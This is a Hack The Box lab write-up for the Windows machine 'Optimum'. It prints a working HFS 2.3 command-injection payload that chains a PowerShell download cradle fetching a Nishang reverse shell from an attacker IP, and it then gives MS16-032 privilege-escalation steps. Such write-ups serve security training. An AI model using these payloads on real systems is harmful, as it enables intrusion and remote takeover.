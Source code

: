 ```yaml
---
title:     "Hack The Box - Optimum"
tags: [windows,easy,sherlock,empire,rce,nishang]
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/1.png)

We are going to pwn Optimum from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/6>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Only one port is opened which is ``HTTP``

## HTTP Enumeration

From the nmap result itself we know that the webpage is ``HttpFileServer httpd 2.3``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/2.png)

When I click the version, It redirects to it official homepage.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/3.png)

Since we know the version I started searching for exploits available for the version and found this 

>https://www.exploit-db.com/exploits/34668

From the above exploit we can do ``RCE`` on the url.
We can execute it by using `/?search=%00{.exec|cmd.}` on the url

Now we need to get a reverse shell from this.

I used [Nishang](https://github.com/samratashok/nishang)

>Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. By using this we can get the shell.

There is a lot of Shell I choosed ``nishang/Shells/Invoke-PowerShellTcp.ps1`` and copied that to my directory.

If we look at the Shell it gives us some of the examples.
```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```

I copied one of the example and changed it to my IP and paste it in bottom of the file.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/4.png)<br/>
This not only load the module but also the shell give me a callback.

## Getting User Shell

We need to start ``python`` server inorder to download it to the box. Started my ``netcat`` listener too.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/5.png)<br/>

Now its time to upload the module to the box

I used Powershell to do that 

```powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1')```

I added the location of the ``powershell.exe`` in windows along with the command and we already know for ``RCE``.

```
/?search=%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1').}
```

With URL encoded I passed it to burp.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/6.png)

``Status 200`` means it successfully downloaded to the box.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/7.png)

At the sametime I got the shell in ``nc listener``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/8.png)

## Privilege Escalation

Once I got a shell the first thing I check is ``systeminfo``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/20.png)<br/>
I found some ``Hotfix's``

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

So we can use [Sherlock](https://github.com/rasta-mouse/Sherlock) to find the missing patches which will help us to Privilege Escalation.

>Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

`Sherlock.ps1`

So we need to ``Find AllVulns`` Copy that and paste it in the bottom of the file as we did before.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/9.png)<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/10.png)

Our python server is already ON so we can download it in the box. No need to represent ``powershell(PS)`` because we already in a powershell.

> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Sherlock.ps1')

Once its executed it displays the output.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/11.png)

Only these are appears to be vulnerable.
```
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
```

So I started from the first one which is ``MS16-032``. The [Powershell Empire](https://github.com/EmpireProject/Empire) have an exploit for this.

Its located in ``/data/module_source/privesc/Invoke-MS16032.ps1`` 

If we look at the script it gives the example of how it need to run.
```
 .EXAMPLE

        C:\PS> Invoke-MS16-032 -Command "iex(New-Object Net.WebClient).DownloadString('http://google.com')"
```

``Invoke-MS16032.ps1``
Copy the example and paste it in the bottom of the file with changes. I copied the same``Invoke-PowerShellTcp.ps1`` which we use to get initial shell as ``root.ps1`` to give us another reverse shell.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/12.png)

Note: ``Invoke-MS16032`` must be as same as in the top of the script.

``root.ps1``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/13.png)

On the box:

>IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-MS16032.ps1')

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/14.png)

We are System!!

## Method II (Using Metasploit)

> https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec

> use exploit/windows/http/rejetto_hfs_exec

Set LHOST and LPORT<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/15.png)

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/16.png)

For privilege escalation, background the session and start ``local_exploit_suggester``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/17.png)

We already know its vulnerable to ``ms16_032``, So I used that exploit
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/18.png)<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/19.png)

We got authority\system !! 